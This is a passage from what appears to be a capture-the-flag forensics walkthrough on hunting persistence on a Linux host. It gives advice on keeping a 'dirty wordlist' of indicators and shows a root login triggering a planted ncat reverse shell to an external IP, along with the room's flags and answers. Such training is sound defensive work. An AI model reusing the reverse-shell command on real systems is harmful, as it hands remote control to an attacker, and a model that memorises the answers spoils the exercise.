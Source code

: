 A dirty wordlist is essentially raw documentation of the investigation from the investigator's perspective. It may contain everything that would help lead the investigation forward, from actual IOCs to random notes. Keeping a dirty wordlist assures the investigator that a specific IOC has already been recorded, helping keep the investigation on track and preventing getting stuck in a closed loop of used leads. 

It also helps the investigator remember the mindset that they had during the course of the investigation. The importance of taking note of one's mindset during different points of an investigation is usually given less importance in favour of focusing on the more exciting atomic indicators; however, recording it provides further context on why a specific bit is recorded in the first place. This is how pivot points are decided and further leads, born and pursued.

The advantages of a dirty wordlist don't end here. A quick way to formally document findings at the end of the investigation is to clean them up. It is recommended to put in every sort of detail that may help during the course of the investigation. So, in the end, it would be easy to remove all the unneeded details and false leads, enrich actual IOCs, and establish points of emphasis. The flag for this task is: THM{d1rty_w0rdl1st}

Answer the questions below

This section is a bonus discussion on the importance of a dirty wordlist. Accept the extra point and happy hunting!

What is the flag?

*THM{d1rty_w0rdl1st}*


### Investigating the root account

Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account. 

Answer the questions below

```
giorgio@giorgio:~$ sudo su
[sudo] password for giorgio: 
root@giorgio:/home/giorgio# cd /root
root@giorgio:~# Ncat: TIMEOUT.

ls
snap
[1]+  Exit 1                  ncat -e /bin/bash 172.10.6.9 6969  (wd: /home/giorgio)
(wd now: ~)

```

A few moments after logging on to the root account, you find an error message in your terminal.

What does it say?

Come on, do you really need a hint?

*Ncat: TIMEOUT.*

After moving forward with the error message, a suspicious command appears in the terminal as part of the error message.
